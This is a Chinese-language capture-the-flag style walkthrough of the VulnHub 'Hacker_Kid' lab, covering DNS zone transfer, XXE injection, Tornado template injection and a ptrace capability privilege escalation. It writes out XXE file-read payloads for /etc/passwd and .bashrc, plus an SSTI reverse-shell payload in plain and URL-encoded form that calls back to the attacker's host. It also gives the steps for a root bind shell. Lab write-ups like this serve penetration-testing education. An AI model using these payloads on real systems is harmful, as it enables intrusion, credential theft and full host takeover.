


+ **靶机环境介绍**
	+ [Hacker_Kid](https://download.vulnhub.com/hackerkid/Hacker_Kid-v1.0.1.ova) 
	+ 难度等级 
		+ <font color=green>OSCP 风格的中级难度靶场</font>
    + 发布日期： 2021-08-02
+ 目标:
	+ 取得 root 权限 (关注信息收集，不需要蛮力爆破，每一步都有适当的提示)
+ **所用技术栈**
	+ 主机发现
	+ 端口扫描
    + **WEB 信息收集**
    + DNS 区域传输 ( 在真实环境测试经常用到 )
    + XXE 注入攻击
    + SSTI 模板注入
    + Capabilitie 提权

## 主机发现与信息收集


开放了 `53` 端口 `DNS` 域名解析服务，而我们知道通常情况下，`nmap` 只扫描 TCP 开放的端口，而 UDP 端口并不探测,DNS 域名服务器之间传输一般使用 TCP 的 53 端口，而我们日常上网去查询一个域名对应的 IP 我们要去访问它的时候，一般使用 UDP 的 53 端口 , <font color='red' face=Monaco size=3>所以我们有理由怀疑，目标主机上可能还开放了 UDP 的 53 端口</font>

我们针对这台主机的 UDP 53 端口也来进行一个扫描

```bash
sudo nmap -p53 -sU 10.0.2.15
```


我们发现 `9999` 端口是 `Tornado` 开放的服务，如果我们拿这个关键字去搜索引擎搜索一下的话，我们就会发现，这个东西是 `python` 网站开发轻量级框架


当做完这些信息收集之后，我最先把目光放在 53 端口上的服务，首先我们先查询 `ISC BIND 9.16.1` 这个版本的 `BIND` 是否存在已知漏洞,在经过一番搜索之后，确实发现了两个远程代码执行漏洞

+ `CVE-2020-8625`
+ `CVE-2021-25216`

根据官方对这两个漏洞的描述，只要我们成功利用这个两个漏洞，那么我们就能直接控制拿下主机

> 但是遗憾的是，在网上并没有找到这两个漏洞的利用代码,所以我们只能暂时放弃这种方式


当浏览这网页的时候，我们发现了下面这两段看上去像提示信息的两段话。
+ 一句话，像是这个网站本身就具有漏洞，然后没黑客攻击了
+ 叫我们多 `DIG` 才能更容易找到它


而我们知道，在 Linux 服务器上本身就有一个关于 DNS 的小工具 `dig`

然后我就顺道点开了网站导航栏上面的三个链接

发现第一个链接跳转到 `index.html` 但是给我们返回 `NOT FOUND` 也就是网页并不存在 


而我们知道网站的 `index.html` 一般为首页，很少会出现不存在的情况,所以我就习惯性地将 `index.html` 替换成 `index.htm` 发现也还是不存在，然后我又替换成 `index.php` 发现回到刚刚我们看到的首页

<font color='red' face=Monaco size=3>从这边我们就可以知道，目标服务器网站是使用 PHP 语言开发的</font>



然后我们点击 `App` 发现它在 URL 后面添加了 `#app.html` 所以我们将前面的 `index.php` 给删除，只留 `app.html` 发现成功访问到一个网页，然后对这个网页做相应的基本渗透测试 什么 `SQL注入` 文件包含等。。但是发现该网页对我们做出的任何行为都没有响应.


我们使用同样的方式对 `Form` 链接进行测试，发现还是同样的情况


既然这些网页信息收集和基本测试都做了，也都没有什么实质性的进展,这时候我们就可以使用 `dig` 去发现 `DNS` 相关的信息

> 而我们知道，使用 dig 命令需要知道目标的域名才行。

<font color='red' face=Monaco size=3>所以我们按 <kbd>F12</kbd> 或者 <kbd> Ctrl </kbd> + <kbd> U </kbd> 查看一下网站源码,看看我们能不能在源码里面发现一些,和目标服务器域名相关的信息 </font>

在审查网站源码时，我们应该注意一下几点：
+ 在查看源码时，我们需要注意**页面引用的路径**
+ 还应该注意网站源码**注释的内容**
    + 因为网站开发者在开放网站时，会添加很多注释，发布时忘记删除，可能这些注释会给我们渗透带来很大帮助
+ 注意资源引用的情况，如引用了什么框架啊。。。


<font color='red' face=Monaco size=3>然后我们在这个源码里面看见了这段话，他说叫我们使用 GET 并使用参数 page_no 去请求页面</font>


当然我们现在对这个参数是干什么用的还不清楚，我们首先先在网站的 URL 手动添加了几个测试请求  `10.0.2.15?page_no=1` `10.0.2.15?page_no=2` ...

> 既然是 `page_no` 那么其参数的 value 值极大可能为数字,所以下面我们使用数字对这个参数进行爆破


但发现都没效果，既然手动效率比较慢，那我们就使用 burpsuit 来进行暴力测试，看看当参数为几时，页面会给我们响应


经过爆破，发现当参数为 21 时服务器给我们的响应与别的参数值响应结果不一样


这时候我们将使用 21 这个参数值去访问这个服务器页面，发现网站页面最下面多了一段话，说这个黑客给自己留了很多后门，其中一个后门名为：`hackers.blackhat.local`


我们知道一台服务器开放多个 web 服务有好几种方式:
1. 一台主机绑定多个 IP 在不同 IP 上开放不同的服务
2. 一台主机上只存在一个 IP 但是开放了多个端口，将不同的服务映射到不同的端口上
3. <font color='red' face=Monaco size=3>只有一个IP，并且只开一个端口，我们可以使用不同域名来创建多个 web 服务</font>


所以这时候我就想，我们能否通过这个域名去访问该网站，这个网站是否会给我们不一样的响应呢?


> 我们通过编辑 `/etc/hosts` 文件来添加主机域名

```bash
vim /etc/hosts
```
在这个文件里面添加这两条记录，进而绑定主机和域名之间的关系


<div style='border-radius:15px;display:block;background-color:#a8dadc;border:2px solid #aaa;margin:15px;padding:10px;font-family:monospace'>
很多 web 服务端程序它都会对域名本身也创建一条 A 记录,所以这边以防万一对去除掉主机部分的 DNS 域名部分也做了一个绑定,如在很多情况我们访问网站时，不需要加 www 就能访问其 web 服务.
</div>

保存完之后，我们再继续访问一下该网站，和我们**直接使用 IP 地址访问并没有任何变化**,说明在这个域名下并没有隐藏什么东西.


结合之前最初网站提示的信息 `DIG DIG` 我们有理由猜测在这个域名下可能还有别的记录。

## DNS 区域传输

默认可能 kali 并没有安装 `dig` 命令 ,我们需要使用一下命令来安装 `dig`

```bash
# install dig tool
sudo apt-get install dnsutils
```
安装完成之后我们使用 `dig` 去测试一下目标服务器上是否存在 `axfr` 安全漏洞

```bash
dig axfr @10.0.2.15 blackhat.local
```

命令执行完之后我们成功获取到目标主机上所有的主机记录


我们发现了一些新的域名记录 `hackerkid.blackhat.local`等 我们将这些记录也添加到 `/etc/hosts` 文件下


<font color='red' face=Monaco size=3> 添加完成之后，我们对照我们添加的记录逐个再次访问这个网站，看网站会不会给我们不一样的响应</font>

发现只要当我们使用这个域名`hackerkid.blackhat.local`进行访问网站时出现了不一样的页面


> 我们还知道这个网站开启了两个 web 服务。 一个是 80 端口开放的 apache 服务，另一个为 python 框架开发的服务 9999 端口

之前我们都是尝试 80 端口的测试，这一次我们尝试一下对该服务器的 9999 端口进行一下访问


然后我们再尝试使用我们刚刚使用的域名加上这个 9999 端口来进行访问，发现都没有发生任何变化。只有这个登入界面

看到这个登入界面，我们首先想到的就是暴力破解，但是根据网站作者的描述，这个网站不需要进行暴力破解，所以可能这些密码口令设置的比较复杂，所以这边也就没有尝试暴力破解。<font color='red' face=Monaco size=3>但是在真实环境下还是要进行口令的暴力破解的</font>

所以我们就回到刚刚我们使用域名新出现的网页上，似乎这边有突破口的几率要大一点

我们首先尝试一下注册一下，随便输入一下内容，发现注册失败，说我的邮箱格式错误


第一次以为是它使用了 js 对邮箱格式进行了校验，然后我尝试了几个正常邮箱格式输入进去，发现服务器还是给我们返回邮箱格式错误的信息


有尝试了很多字符串格式，数字啊，字母啊等等组合，都是给我返回相同的错误，然后我就想看一下，我们到底给服务器发送了什么，为什么它一直给我们返回邮箱格式的错误。

> 我们还是使用 `burpsuit` 来查看我们发送的请求包


发现我们发送的信息为一个 `xml` 格式的信息

## XXE 注入攻击

> XXE ( XML external entity ) injection: XML 的外部实体攻击
+ [what is xxe injection](https://portswigger.net/web-security/xxe)

<div style='border-radius:15px;display:block;background-color:#a8dadc;border:2px solid #aaa;margin:15px;padding:10px;'>
XML 也是和 HTML 一样也是一种标记语言，其标签可自定义，故而更加灵活,一般用来存储数据, ( key-value style ) 基本上计算机上所有的数据对象都能通过 XML 来进行存储.
</div>


既然我们发送的请求为 `xml` 格式的，是否这边存在 `XXE` 漏洞呢？

<font color='red' face=Monaco size=3>XML 解析器存在漏洞的,一般从事安全行业的人都不太会意识到 XML数据存储这方面的安全隐患,所有更不用说普通的业务开发人员了。</font>

而我们又发现无论我们传什么进 `<email>` 这个标签，都会被回显到前端。是不是我们可以将其结果回填到 `<email>` 标签内呢?

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>
```


我们发现了里面有一个账号 `saket` 并且这个账号具有 `/bin/bash`,这是个很重要的线索，我们可以先记下来。


这时候我们就可以使用同样的方法来逐个遍历系统内的文件，看看对我们有利用价值的信息。


<div style='border-radius:15px;display:block;background-color:#a8dadc;border:2px solid #aaa;margin:15px;padding:10px;'>
但很快我们就发现有那么一些文件，它并没有成功显示出来，就比如对我们这次渗透测试至关重要的 <code>.bashrc</code> 文件, <font color='red' face=Monaco size=3> 这时候我们就可以结合之前学到的 PHP 封装器来获取其内容</font>
</div>

我们还是可以使用以前使用过的 PHP 封装器来对数据进行编码后显示，然后在攻击机上进行解码

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM 'php://filter/convert.base64-encode/resource=/home/saket/.bashrc'>]>
```
发现成功回显出 `.bashrc` 内容的 `base64` 编码内容.


然后我们可以使用 `burpsuit` 内置的解码功能对其进行解码,发现里面有一条很重要的信息。


既然我们获得了账号和密码，我们就能登入到目标服务器，但是我们发现目标服务器其实并没有开启 SSH 而这个密码看起来不像是假的。

> 还记得我们之前访问 9999 端口需要提交账号和密码吗？并且这个服务也是 python 服务，满足下面的注释， for running python app

```bash
#Setting Password for running python app
username="admin"
password="Saket!#$%@!!"
```
所以我就拿这两个内容去 9999 端口开放的网页尝试登入,很遗憾发现登入失败。



经过一段时间的思考，我认为这个密码应该是不会有问题，根据提示，上面说 `setting password for running python app` 并没有说用户名，会不会用户名并不是 `admin` ？ 


我们之前查看 `/etc/passwd` 文件时，发现了用户 `saket` 会不会用户名为 `saket` 当即我就尝试了一下，发现成功登入进去.


> 当看到这个页面时，我也是想了好一会，既没有表单，也没有按钮等任何与用户交互的东西


直到想起网页上说 `Tell me name` 会不会 `name` 为参数？

我们传入 name 参数，发现网站真的给我们响应了。说明我们这个方向是没错的。


<font color='red' face=Monaco size=3>到这边又卡了很久,当我们传参数过去，给什么就返回什么，也没别的东西。</font>

## SSTI 模板注入

<div style='border-radius:15px;display:block;background-color:#a8dadc;border:2px solid #aaa;margin:15px;padding:10px;'>
经过了长时间的观察和思考之后，我发现这个页面可能也只有 `name` 后面这个 `value` 参数值,可能会是我们的一个突破口,结合我们对这个网站样式的分析，突然有了一个灵感，会不会这个位置存在模板注入漏洞呢?
</div>


<font color='red' face=Monaco size=3>其实模板注入和 SQL 注入非常像</font> 都是因为没有对用户传过来的东西进行消毒过滤，直接拼接，导致的漏洞

就比如下面这段 使用 `pyhton` `jinja2` 编写的代码。

```python
from jinja2 import Template
template = Template("
<html><h1>Hello " + user_input + "</h1></html>")
print(template.render());
```

下面这个模板几乎包含我所有已知的模板样式,我们只需要将这个模板复制粘贴进我们怀疑有模板注入漏洞的地方，如果发送报错就说明存在模板注入漏洞.


```html
{{1+zhouhaobusy}}${1+zhouhaobusy}<%1+zhouhaobusy%>[zhouhaobusy]
```
+ `zhouhaobusy` 是无关紧要的名字，但是要保证目标服务器上并不存在这个名字的函数


如果发生了报错就说明，目标上存在模板注入漏洞,当我们复制粘贴进目标靶机后，提交请求，发现网页上真的出现了错误提示.


而我们又知道这个报错为 `python tornado` 框架触发的。

为进一步确认为哪一种 `python` 模板样式，我们可以使用下面这段代码

```html
${6*6},{{6*6}}
```
发现服务器给我们返回了 `${6*6},36` 说明我们可以通过 `{{}}` 来执行 python 代码


既然我们能通过模板注入漏洞来执行正常的 python 代码，那我们能不能尝试使用模板注入漏洞给我们反弹 Shell 呢？

我们去网上搜索了一下，关于模板注入漏洞反弹 shell 的代码 。

```python
{{os.system('bash -c "bash -i >& /dev/tcp/10.0.2.7/4444 0>&1"')}}
```

我们先在攻击机上开启 `nc -nvlp 4444` 的监听

<font color='red' face=Monaco size=3>我们直接将这一段代码复制粘贴拼接上 URL 后提交服务器,发现并没有成功反弹shell</font>

那是因为我们可能需要对我们的 `payload` 里的特殊字符串进行 URL编码,然后再提交. 

+ 我们可以自己编写工具将其转换成 `URL` 编码格式，
+ 我们也可以去网上寻找在线 URL 编码网站对其进行 URL 编码
    + [URL encoder website](https://www.urlencoder.org/)

转换之后的 `payload` :

```url
%7B%25%20import%20os%20%25%7D%7B%7Bos.system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.0.2.7%2F4444%200%3E%261%22%27%29%7D%7D
```

我们将进行 URL 编码之后的字符串提交给服务器，发现我们成功获得 shell


> 到这边我们终于突破了边界，获得了一个用户的 Shell !


## Capabilitie 提权

当我们突破了边界，那么就该提权了。

查看内核版本，`sudo` , `suid` , `sgid` , 可写的文件。。。

做完这一系列操作，发现我们之前的提权方式都没用。

然后我就想到了看看能不能使用 `capabilitie` 方式提权  

我们知道在 Linux 操作系统上，我们使用 `WireShark` 抓包时,如果是普通用户运行，则抓不到包，必须要以管理员权限运行才行

因为 `WireShark` 在进行抓包时，需要使用比较底层的系统操作

但是当我们给相关需要权限的命令赋予相关权限之后，我们并不需要使用管理员权限就能抓包。

```bash
setcap cap_net_raw,cap_net_admin=eip /usr/bin/dumpcap
```

<font color='red' face=Monaco size=3>`capabilitie` 方式提权就是利用用户设置的权限，进行利用</font>

想了解更多关于 `capabilities` 权限可以 RTFM
+ `man 7 capabilities`


<font color='red' face=Monaco size=3>在 Linux 系统里获取设置的 `capabilities` 权限我们可以使用 `getcap` 命令</font>


但是当我们运行完 `getcap` 时，目标靶机提示我们系统找不到该命令，然后返回了两个命令路径给我们。

说明目标靶机并没有将 `getcap` 这个命令加到环境变量里.

所以我们使用命令的绝对路径来运行 `getcap`

```bash
/sbin/getcap -r / 2>/dev/null
# -r recursive
# / root path;
```
运行完这条命令之后,将会遍历整个系统（所有文件）,并将设置过特殊权限的命令给打印出来。

<font color='red' face=Monaco size=3>我们很快发现一条记录比较诡异，`python2.7` 这条命令居然设置了 `ptrace` 权限，我们知道 `ptrace` 和追踪进程相关，会附加到别的进程上</font>

而别的进程都类似 `cap_net cap_raw_net` 都是与网络相关的内容.


然后我们去网上查找了一下利用代码，发现确实存在。
+ [The exploit python code](./mechine7.assets/inject.py)

我们先将利用代码上传到目标靶机上


现在我们只需要将 python 附加到一个以 root 身份权限运行的进程上即可

我们可以使用一下命令来查找以 root 权限运行的进程。 

```bash
ps -U root
ps -aex | grep root
```


<font color='red' face=Monaco size=3>在寻找进程时，最好寻找那些比较稳定的进程，如 apache2，而不要选择那些不稳定的进程</font>

然后运行一下我们的利用代码,发现从提示输出来看,好像成功利用了。


```bash
python2.7 ./inject.py 582
# 582 is the process id ( pid )
# and the default port is 5600
```


> 我们知道这个脚本默认会使用 5600 端口，所以我们可以查看一下 5600 端口是否开放，如果开放了的话，极大可能成功利用了。

我们使用以下命令来查看开放的端口

```bash
ss -pantu | grep 5600
```
发现成功开启 5600 端口。


我们在攻击机上尝试使用 `nc` 连接脚本开放的 `5600` 端口
```bash
nc 10.0.2.15 5600
```


发现成功连接，并且是 root 账号.

<font color='green' face=Monaco size=4>至此这台靶机就已经成功被渗透。</font>